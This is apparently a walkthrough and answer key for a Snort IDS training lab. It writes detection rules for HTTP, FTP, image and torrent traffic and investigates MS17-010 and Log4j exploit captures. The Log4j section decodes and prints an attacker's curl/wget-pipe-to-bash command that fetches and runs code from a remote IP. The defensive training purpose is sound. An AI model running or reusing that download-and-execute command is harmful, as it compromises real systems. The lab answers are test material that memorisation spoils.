

# Snort Challenge The Basic

## Introduction

### Question 1

Read the task above.

#### Answer

**No answer needed.**

## Writing IDS Rules for HTTP traffic!

### Question 1

Navigate to the task folder and use the given pcap file.
Write a rule to detect all TCP packets from or to port 80.
What is the number of detected packets you got?
Note: You must answer this question correctly before answering the rest of the questions.

#### Answer

The rule I used is:

```alert tcp any 80 <> any any (msg: "Port 80 detected"; sid:1000001; rev:1;) ```

Then I run the following command to check:

```snort -c local.rules -r mx-3.pcap -l .```

Then to get the total I ran:

grep -c "Port 80 detected" alert

Answer: **164**

### Question 2

What is the destination address of packet 63?

#### Answer

To find this answer, run the following:

```snort -r snort.log.1758911385 -n 63```

Scroll up to the packets, and you will find the final packet and can see the destination IP:


Answer: **216.239.59.99**

### Question 3

What is the ACK number of packet 64?

#### Answer

Similar to question 2. Run the following command:

```snort -r snort.log.1758911385 -n 64```

Instead of looking for the destination IP, look for the ACK number:

Answer: **0x2E6B5384**

### Question 4

What is the SEQ number of packet 62?

#### Answer

Run the following command:

```snort -r snort.log.1758911385 -n 62```

Answer: **0x36C21E28**

### Question 5

What is the TTL of packet 65?

#### Answer

```snort -r snort.log.1758911385 -n 65```

Answer: **128**

### Question 6

What is the source IP of packet 65?

#### Answer

```snort -r snort.log.1758911385 -n 65```

Answer: **145.254.160.237**

### Question 7

What is the source port of packet 65?

#### Answer:

```snort -r snort.log.1758911385 -n 65```

Answer: **3372**


## Writing IDS Rules (FTP)

### Question 1

Navigate to the task folder.

Use the given pcap file.

Write a single rule to detect "all TCP port 21"  traffic in the given pcap.

What is the number of detected packets?

#### Answer

The rule I wrote is the following:

```alert tcp any 21 <> any any (msg: "FTP detected"; sid: 100001; rev:1;)```

I then ran the following:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

To find the total number of packets I ran:

```grep -c "FTP" alert```

Answer: **307**

### Question 2

Investigate the log file.

What is the FTP service name?

#### Answer

Use the following command:

```strings snort.log.1758928507 | grep -i ftp```

Answer: **Microsoft FTP Service**

### Question 3

Clear the previous log and alarm files.

Deactivate/comment on the old rules.

Write a rule to detect failed FTP login attempts in the given pcap.

What is the number of detected packets?

#### Answer

Add the following rule to your local.rules:

```alert tcp any any <> any 21 (msg: "Failed FTP login attempt"; content:"530"; offset:0; depth:3; sid:100001; rev:1;)```

Then generate the alert and log using:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

To find the number of packets use:

```grep -c "FTP" alert```

Answer: **41**

### Question 4

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect successful FTP logins in the given pcap.

What is the number of detected packets?

#### Answer

Add the following rule to the local.rules:

```alert tcp any 21 <> any any (msg: "Successful FTP login attempt"; content:"230"; offset:0; depth: 3; sid:1000001; rev:1;)```

The generate the alert and log with:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

Find the total number of packets with:

```grep -c "FTP" alert```

Answer: **1**

### Question 5

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect FTP login attempts with a valid username but no password entered yet.

What is the number of detected packets?

#### Answer

Add the following rule to the local.rules:

```alert tcp any 21 <> any any (msg: "FTP username okay, need password"; content:"331"; offset:0; depth:3; sid: 100001; rev:1;)```

Generate the alert and the log with:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

Get the total number of packets with:

```grep -c "FTP" alert```

Answer: **42**

### Question 6

Deactivate/comment on the old rule.

Write a rule to detect FTP login attempts with the "Administrator" username but no password entered yet.

What is the number of detected packets?

#### Answer

Add the following rule to the local.rules:

```alert tcp any any -> any 21 (msg:"FTP Administrator username sent"; content:"USER"; nocase; content:"Administrator"; nocase; distance:1; sid:100001; rev:1;)```

Generate the alert and the log:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

Get the total number of packets:

```grep -c "FTP Administrator" alert```

Answer: **7**


## Writing IDS Rules (PNG)

### Question 1

Use the given pcap file.

Write a rule to detect the PNG file in the given pcap.

Investigate the logs and identify the software name embedded in the packet.

#### Answer

Add the following rule to your local.rules file:

```alert tcp any any <> any any (msg: "PNG file detected"; content: "|89 50 4E 47 0D 0A 1A 0A|"; sid: 100001; rev:1;)```

Then generate the alert and log file with:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

To find the software we would then run:

```snort -r snort.log.1759004570 -X```

Scroll up to the packet and examine the metadata to find the software.


Answer: **Adobe ImageReady**

### Question 2

Clear the previous log and alarm files.

Deactivate/comment on the old rule.

Write a rule to detect the GIF file in the given pcap.

Investigate the logs and identify the image format embedded in the packet.

#### Answer

Add the following rule to your local.rules file:

```alert tcp any any <> any any (msg: "GIF file detected"; content:"GIF8"; offset:0; depth:4; sid: 100001; rev:1;)```

Then run the command:

```snort -c local.rules -r ftp-png-gif.pcap -l .```

Then use the following command to find the format:

```snort -r snort.log.1759005345 -X```


Answer: **GIF89A**

## Writing IDS Rules (Torrent Metafile)

### Question 1

Use the given pcap file.

Write a rule to detect the torrent metafile in the given pcap.

What is the number of detected packets?

#### Answer

Add the following rule to your local.rules file:

```alert tcp any any <> any any (msg: "Torrent file detected!"; content:".torrent"; nocase; sid:100001; rev:1;)```

Then generate the file using:

```snort -c local.rules -r torrent.pcap -l .```

Then to find the total number of packets, run the following:

```grep -c "Torrent" alert```

Answer: **2**

### Question 2

Investigate the log/alarm files.

What is the name of the torrent application?

#### Answer

Run the following command to investigate the snort log:

```snort -r snort.log.1759189678 -X```


Answer: **bittorrent**

### Question 3

Investigate the log/alarm files.

What is the MIME (Multipurpose Internet Mail Extensions) type of the torrent metafile?

#### Answer


Answer: **application/x-bittorrent**

### Question 4

Investigate the log/alarm files.

What is the hostname of the torrent metafile?

#### Answer


Answer: **tracker2.torrentbox.com**

## Troubleshooting Rule Syntax Errors

### Question 1

You can test each ruleset with the following command structure;

```sudo snort -c local-X.rules -r mx-1.pcap -A console```

Fix the syntax error in local-1.rules file and make it work smoothly.

What is the number of the detected packets?

#### Answer

The issue with rule number 1 is there is a missing space after any before (. The rule should be the following:

```alert tcp any 3372 -> any any (msg: "Troubleshooting 1"; sid:1000001; rev:1;)```

You can then  run:

```sudo snort -c local-1.rules -r mx-1.pcap -A console```

And get the answer to question 1 with:

```grep -c "Troubleshooting" alert```

Answer: **16**

### Question 2

Fix the syntax error in local-2.rules file and make it work smoothly.

What is the number of the detected packets?

#### Answer

The issue with rule number 2 is that it is missing a port definition in the rule. The rule should be:

```alert icmp any any -> any any (msg: "Troubleshooting 2"; sid:1000001; rev:1;)```

You can then  run:

```sudo snort -c local-1.rules -r mx-1.pcap -A console```

And get the answer to question 1 with:

```grep -c "Troubleshooting" alert```

Answer: **68**

### Question 3

Fix the syntax error in local-3.rules file and make it work smoothly.

What is the number of the detected packets?

#### Answer 

The issue with rule number 3 is that there are 2 rules with the same sid. The sid of a rule needs to unique. Change the second rules sid.

```
alert icmp any any -> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)
alert tcp any any -> any 80,443 (msg: "HTTPX Packet Found"; sid:1000002; rev:1;)
```
You can then  run:

```sudo snort -c local-1.rules -r mx-1.pcap -A console```

Look for the "Alerts" total in the console under the "Action Stats".


Answer: **87**

### Question 4

Fix the syntax error in local-4.rules file and make it work smoothly.

What is the number of the detected packets?

#### Answer

There are two issues in these rules. First, the SID is the same for both rules again. In addition, the second rule has a : after the msg instead of a ;. The rules should be:

```
alert icmp any any -> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)
alert tcp any 80,443 -> any any (msg: "HTTPX Packet Found"; sid:1000002; rev:1;)
```

Then run the following and look for "Alerts" under "Action Stats":

```sudo snort -c local-4.rules -r mx-1.pcap -A console```

Answer: **90**

### Question 5

Fix the syntax error in local-5.rules file and make it work smoothly.

What is the number of the detected packets?

#### Answer

You will have to apply the previous fixes to local-5.rules. The newest issue is that <- is not a valid operator in snort rules. You will need to change this to <>. The rules should look like this:

```
alert icmp any any <> any any (msg: "ICMP Packet Found"; sid:1000001; rev:1;)
alert icmp any any <> any any (msg: "Inbound ICMP Packet Found"; sid:1000002; rev:1;)
alert tcp any any -> any 80,443 (msg: "HTTPX Packet Found"; sid:1000003; rev:1;)
```

Then run the following:

```sudo snort -c local-5.rules -r mx-1.pcap -A console```

Answer: **155**

### Question 6

Fix the logical error in local-6.rules file and make it work smoothly to create alerts.

What is the number of the detected packets?


#### Answer

The issue with rule 6 is that case sensitivity matters in the current rule. We need to turn this off by adding the nocase;:

```alert tcp any any  <> any 80  (msg: "GET Request Found"; content:"|67 65 74|"; nocase; sid: 100001; rev:1;)```

Then run the following:

```sudo snort -c local-6.rules -r mx-1.pcap -A console```

Answer: **2**

### Question 7

Fix the logical error in local-7.rules file and make it work smoothly to create alerts.

What is the name of the required option:

#### Answer

We do not need to do any detective skills for this one. The rule is missing a "msg".

Answer: **msg**

## Using External Rules (MS17-010)

### Question 1

Use the given pcap file.

Use the given rule file (local.rules) to investigate the ms1710 exploitation.

What is the number of detected packets?

#### Answer

Run the following command:

```sudo snort -c local.rules -r ms-17-010.pcap -A console```

Look under "Action Stats" for "Alerts":


Answer: **25154**

### Question 2

Clear the previous log and alarm files.

Use local-1.rules empty file to write a new rule to detect payloads containing the "\IPC$" keyword.

What is the number of detected packets?

#### Answer

Add the following rule to local-1.rules:

```alert tcp any any -> any 445 (msg:"SMB IPC$ Share Access Detected"; content:"|5c|IPC$"; nocase; sid:1000001; rev:1;)```

Then run the following command:

```sudo snort -c local-1.rules -r ms-17-010.pcap -A console```


Answer: **12**

### Question 3

Investigate the log/alarm files.

What is the requested path?

#### Answer

Regenerate the snort log with the following command:

```sudo snort -c local-1.rules -r ms-17-010.pcap -l .```

Then investigate the packets using:

```sudo snort -r snort.log.1759279088 -X```


Answer: **\\192.168.116.138\IPC$**

### Question 4

What is the CVSS v2 score of the MS17-010 vulnerability?

#### Answer

Answer: **9.3**

## Using External Rules (Log4j)

### Question 1

Navigate to the task folder.

Use the given pcap file.

Use the given rule file (local.rules) to investigate the log4j exploitation.

What is the number of detected packets?

#### Answer

Run the following command:

```sudo snort -c local.rules -r log4j.pcap -A console```

Look for "Alerts" under "Action Stats"


Answer: **26**

### Question 2

Investigate the log/alarm files.

How many rules were triggered?.

#### Answer

Run the following command:

```grep -oP '\[\d+:\d+:\d+\]' alert | sort -u | wc -l```

Answer: **4**

### Question 3

Investigate the log/alarm files.

What are the first six digits of the triggered rule sids?

#### Answer

Run the following command to pull the sids:

```grep -oP '\[\d+:\d+:\d+\]' alert```

Answer: **210037**

### Question 4

lear the previous log and alarm files.

Use local-1.rules empty file to write a new rule to detect packet payloads between 770 and 855 bytes.

What is the number of detected packets?

#### Answer

Add the following rule to local-1.rules:

```alert tcp any any -> any any (msg:"Packet payload between 770-855 bytes"; dsize:770<>855; sid:1000001; rev:1;)```

Then investigate using:

```sudo snort -c local-1.rules -r log4j.pcap -A console```


Answer: **41**

### Question 5

Investigate the log/alarm files.

What is the name of the used encoding algorithm?

#### Answer

Investigate the encoding algorithm by looking through the packets using:

```snort -r snort.log.1759356495 -X```

We can find the encoding algorithm in the 40th packets contents:



Answer: **Base64**

### Question 6

Investigate the log/alarm files.

What is the IP ID of the corresponding packet?

#### Answer

Look for the ID of the packet we found the encoding on:


### Question 7

Investigate the log/alarm files.

Decode the encoded command.

What is the attacker's command?

#### Answer

We need to decode the command we found in the packet. We know it is base 64 encoded so we can copy the encoded command. Unfortunately, copying it from the packet will include the hex value so we will have to remove the hex value. Here is the encoded command:

```KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC8xNjIuMC4yMjguMjUzOjgwfHx3Z2V0IC1xIC1PLSA0NS4xNTUuMjA1LjIzMzo1ODc0LzE2Mi4wLjIyOC4yNTM6ODApfGJhc2g=}```

Then we can use [CyberChef](https://gchq.github.io/CyberChef) to decode it from base64:

https://gchq.github.io/CyberChef/#input=aHR0cHM6Ly90cnloYWNrbWUuY29tL3IvY2FyZWVycw&oenc=65001

Finally we get the answer:

Answer:```(curl -s 45.155.205.233:5874/162.0.228.253:80||wget -q -O- 45.155.205.233:5874/162.0.228.253:80)|bash```

### Question 8

What is the CVSS v2 score of the Log4j vulnerability?

#### Answer

Answer:**9.3**

## Conclusion

### Question 1

Read the room above

#### Answer

Answer:**No answer needed.**


